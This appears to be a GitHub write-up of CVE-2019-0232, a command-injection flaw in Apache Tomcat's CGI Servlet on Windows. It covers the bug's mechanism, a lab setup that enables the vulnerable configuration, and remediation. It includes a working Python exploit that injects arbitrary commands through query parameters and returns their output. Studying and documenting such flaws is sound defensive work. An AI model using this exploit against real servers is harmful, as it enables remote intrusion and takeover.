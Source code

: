 # CVE-2019-0232

## Description
Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.


## Explanation of Bug:
There is a vulnerability in parameter interpolation in Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 which can be exploited by passing arguements as query
parameters which in turn are passed to the underlying windows command line.  
In windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the
Windows JRE perform does any kind of input validation for these special characters.  
So, after this we can literally input any command directly to the command line. For example, if
input is `&<cmd_to_run>`, the command which is passed to cmdline will be 
```
RCE.bat &<cmd_to_run>
```  
Here cmd.exe will interpret `RCE.bat` and `<cmd_to_run>` as seperate commands. To see the output of the injected command we need to prepend the command with `&echo.`.  
If this is not done, command will still be invoked but we will not be able to see its output.  
Optionally we can also prepend the command with `&echo+off` which turns off printing of present working directory.  
(`+` is a must and cannot be replaced by `%20` or `space` since HTML queries have MIME type of `application/x-www-form-urlencoded` and since there are
no forms we have to craft query parameters manually).
```
RCE.bat &echo off&echo.&<cmd_to_run>
```  
This bug is only exploitable when running on Windows in a non-default configuration in conjunction with batch files and `enableCmdLineArguements` set to `true` in web.xml file.  
If also `passShellEnvironment` is also set to `true`, this gives the
upper-hand to the attacker as he then doesn't need to enter exact path of commands he want to run. 

## Environment Setup:
1. We installed a Java Runtime Environment (JRE) on a Windows 7 virtual machine.
2. We then download the vulnerable version of Tomcat (in this case 7.0.93) and extract.
3. To enable privileged context, we modify the `conf\context.xml` file and set the property `privileged` to True.

	``` html
	<Context privileged="true">
	```	
4. To enable the CGI Serverlet, we would need to uncomment the commented CGI Serverlet section in `conf\web.xml`. We also initialize the `enableCmdLineArguments` to `true` for passing command line arguments to CGI script, we can also set `passShellEnvironment` for the sake of convenience without passing full paths of commands to be executed.
	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<init-param>
	  <param-name>passShellEnvironment</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

5. We enable the url pattern `/cgi/*` to be handled by the cgi scripts.
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```
6. To demonstrate the vulnerability, we need some cgi scripts to be present on the server, to simulate that, we create a directory for the cgi scripts

 	`mkdir webapps\ROOT\WEB-INF\cgi`

7. The exploit requires the presence of some cgi script, which would be executed each time a request to the certain script is made. The exploit would work as long as we have a non-empty valid cgi script (this script could otherwise be found by some attacker with enumeration under similar environment). We just create a `RCE.bat` which simply sleeps for 1 second
	```bash
	echo timeout 1 > webapps\ROOT\WEB-INF\cgi\RCE.bat 
	```

8.	We then instantiate the the TomCat server for exploitation
	``` bash
	cd bin
	catalina run
	```
9. Now we have our vulnerable server up for exploitation, we pass commands to the url of the cgi batch script.
  
## Exploit Code:

```python
import requests as re		
base_url = input("Enter url of the .bat cgi script: ")
while(True):
	command = input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command		
	# & is command seperator
	r = re.get(base_url, params=command.replace(" ","+"))	
	# ' ' is replaced by '+' to craft valid query parameters
	print(r.text)
```

## Remediation:
1.	Set `enableCmdLineArguements` to `False`.
2.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` and set it to `true`for proper input validation. 
